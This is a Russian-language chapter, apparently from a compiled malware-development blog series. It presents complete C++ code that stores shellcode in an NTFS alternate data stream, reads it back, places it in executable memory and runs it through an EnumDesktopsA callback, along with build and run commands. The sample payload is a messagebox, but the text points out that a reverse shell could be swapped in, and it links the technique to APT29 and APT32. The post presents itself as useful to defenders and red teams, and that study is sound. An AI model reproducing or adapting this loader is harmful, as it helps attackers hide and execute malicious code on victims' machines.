






\newpage
\subsection{46. трюк разработки вредоносного ПО. Хранение полезной нагрузки в альтернативных потоках данных. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

Сегодня этот пост является результатом моего собственного исследования ещё одного популярного трюка разработки вредоносного ПО: хранение вредоносных данных в альтернативных потоках данных (ADS) и способы их использования злоумышленниками для обеспечения постоянства.     

### альтернативные потоки данных

Альтернативные потоки данных (ADS) позволяют связывать несколько "потоков" данных с одним именем файла, что может использоваться для хранения метаданных. Хотя эта функция была разработана для поддержки *Macintosh Hierarchical File System (HFS)*, который использует ресурсные форки для хранения значков и другой информации о файле, её можно использовать (и она уже использовалась) для сокрытия данных и вредоносного кода.    

### практический пример

Ниже приведён простой пример кода для хранения полезной нагрузки в ADS `hack.c`:      
```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Логика довольно проста. Этот код записывает данные в ADS, а затем считывает их обратно. Затем запускает полезную нагрузку через [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).

Как обычно, в качестве полезной нагрузки я использовал `meow-meow` messagebox для простоты:

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Этот код создаёт альтернативный поток данных (ADS) с именем `hiddenstream` в указанном файле и записывает в него полезную нагрузку. Затем он читает данные обратно и выводит их для проверки корректности. В реальном сценарии данные могут представлять собой вредоносный исполняемый файл, например, обратный шелл или другой шеллкод, который затем может быть извлечён во временное расположение и выполнен отдельно.       

### демонстрация

Давайте посмотрим эту логику в действии.      

Компилируем:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}      

Затем переносим тестовый файл жертвы `meow.txt` в `C:\temp\`:     

{width="80%"}      

И, наконец, запускаем:     

```powershell
.\hack.exe
```

{width="80%"}      

Мы можем проверить альтернативные потоки данных командой:     

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

{width="80%"}      

{width="80%"}      

Как можно заметить, всё сработало, как и ожидалось! =^..^=    

Обратите внимание, что функция альтернативных потоков данных (ADS) специфична для файловой системы `NTFS`, другие файловые системы, такие как `FAT32`, `exFAT`, `ext4` (используемая в Linux), не поддерживают эту функцию.      

Этот метод выполнения кода часто используется [APT29](https://attack.mitre.org/groups/G0016) и [APT32](https://attack.mitre.org/groups/G0050), а также программным обеспечением типа [PowerDuke](https://attack.mitre.org/software/S0139).       

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           
